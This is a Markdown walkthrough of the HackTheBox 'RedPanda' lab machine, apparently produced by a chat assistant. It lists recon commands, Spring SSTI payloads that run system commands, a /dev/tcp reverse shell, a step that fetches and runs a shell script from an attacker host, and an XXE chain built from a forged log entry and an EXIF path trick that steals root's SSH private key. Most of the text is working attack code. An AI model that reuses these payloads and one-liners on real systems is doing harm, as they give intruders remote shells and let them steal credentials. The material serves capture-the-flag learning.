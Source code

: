 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## 🔍 Recon

### Nmap Full Scan
```bash
nmap -p- --min-rate 10000 10.10.11.170
nmap -p 22,8080 -sCV 10.10.11.170
```

### Add to Hosts File
```bash
echo "10.10.11.170 redpanda.htb" | sudo tee -a /etc/hosts
```

### [Feroxbuster](HTTP) for Paths
```bash
feroxbuster -u http://10.10.11.170:8080 -x java,class
```

---

## 🧠 SSTI Foothold

### Fuzz for Banned Characters
```bash
wfuzz -u http://10.10.11.170:8080/search -d name=FUZZ \
-w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt --ss banned
```

### Valid Payload Examples
```text
*{7*7}
@{7*7}
#{7*7}
```

### RCE via SSTI (in search box)
```text
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

---

## 🐚 Reverse Shell (via SSTI)

### Reverse Shell Payload Script (host locally)
```bash
# /var/www/html/shell.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

### Drop the shell
```http
*{T(java.lang.Runtime).getRuntime().exec('curl 10.10.14.6/shell.sh -o /tmp/shell.sh')}
*{T(java.lang.Runtime).getRuntime().exec('bash /tmp/shell.sh')}
```

### Catch Reverse Shell
```bash
nc -lvnp 443
script /dev/null -c bash  # for upgrade
```

---

## 🔐 Enumeration

### Confirm Group for PrivEsc Path
```bash
id
```

### Check Files Owned by `logs` Group
```bash
find / -group logs 2>/dev/null | grep -v -e '^/proc' -e '\.m2' -e '^/tmp/'
```

---

## 🔍 Analyze Applications

### Interesting Paths
```bash
/opt/panda_search/
/opt/credit-score/
/credits/
/opt/panda_search/redpanda.log
```

### Note: Web creds (from source)
```bash
user: woodenk
pass: RedPandazRule
```

---

## ⚙️ Root Shell via XXE Chain

### 1. Create Malicious XML (`0xdf_creds.xml`)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY foo SYSTEM 'file:///root/.ssh/id_rsa'>
]>
<credits>
  <author>0xdf</author>
  <image>
    <uri>/img/panda.jpg</uri>
    <views>0</views>
    <root>&foo;</root>
  </image>
  <totalviews>1</totalviews>
</credits>
```

### 2. Tag Image with Metadata (JPG Artist Field)
```bash
cp image.jpg 0xdf.jpg
exiftool -Artist="../tmp/0xdf" 0xdf.jpg
```

### 3. Upload Malicious Files to `/tmp/`
```bash
scp 0xdf.jpg 0xdf_creds.xml woodenk@10.10.11.170:/tmp/
```

### 4. Inject Fake Log Line
```bash
echo "412||ip||ua||/../../../../../../tmp/0xdf.jpg" >> /opt/panda_search/redpanda.log
```

### 5. Wait for Cronjob (~2 mins)

### 6. Extract SSH Key from XML
```bash
cat /tmp/0xdf_creds.xml
```

---

## 🗝️ [SSH](SSH) as Root

### Save and Use Key
```bash
chmod 600 ~/keys/redpanda-root
ssh -i ~/keys/redpanda-root root@10.10.11.170
```

---

## 🎓 Beyond Root: Group Discrepancy

### Web Shell (via SSTI)
```bash
id  # groups: logs, woodenk
```

### SSH Login
```bash
id  # groups: woodenk
```

### Reason
- Java web app started as:
  ```bash
  sudo -u woodenk -g logs java -jar ...
  ```
- SSTI shell inherits logs group
- SSH session doesn’t

---

Let me know if you'd like this wrapped into a Markdown file or Notion-friendly version! 🧩